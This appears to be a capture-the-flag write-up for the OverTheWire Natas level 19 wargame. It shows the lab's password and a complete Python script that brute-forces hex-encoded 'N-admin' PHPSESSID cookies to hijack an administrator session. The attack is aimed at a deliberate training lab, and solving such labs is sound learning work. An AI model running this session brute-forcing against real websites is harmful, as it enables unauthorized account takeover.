 And in a couple of minutes we have the password : 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s
<br/>

---

### Natas 19
Access the website with the link : http://natas19.natas.labs.overthewire.org .  <br>
Insert the credentials :  <br>
username : natas19  <br>
password : 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s <br>

When we log into the level we get a message saying "This page uses mostly the same code as the previous level, but session IDs are no longer sequential..." 
Another difference is the absence of the link to view the source code of the script behind the form.

In order to better understand the situation i have opened the Dev Tools and tried to login with random credentials, what happens is that a cookie called `PHPSESSID` get created and populated with a sequence of numbers and letters.

I have noticed that the sequence seems only composed by certain numbers and letters, to be more specific it looks like something encoded in hexadecimal.
I decoded it with an online tool and got this: 3336322d61646d696e --> 362-admin

This looks really more similar to what we have  just seen in level 18, knowing that the code is mostly the same it means that we have to find again the right number and than append `-admin`, and encode it in hexadecimal; We can than try a brute force attack by sending all those combinations as cookies like we did on last level.

```python
#!/bin/python  
  
# import the libraries that we need  
import requests  
from requests.auth import HTTPBasicAuth  
  
# Save the login information in variables  
username = "natas19"  
password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"  
url = "http://natas19.natas.labs.overthewire.org/index.php?"  
  
# Login to natas19 challenge  
authentication = HTTPBasicAuth(username, password)  
print(requests.get(url, auth=authentication))  
  
# Brute forcing the cookie and retrieve the password  
for i in range(0, 640):  
    print("testing number", i)  
    code = str(str(i) + "-admin")  
    print(code)  
    hexa_encoded = code.encode().hex()  
    print(hexa_encoded)  
    cookie = {"PHPSESSID": str(hexa_encoded)}  
    req = requests.post(url, auth=authentication, cookies=cookie)  
    if "You are an admin" in req.text:  
        print("the right ID is: ", i, "and the right cookie is: ", cookie)  
        print(req.text)  
        break
        
```
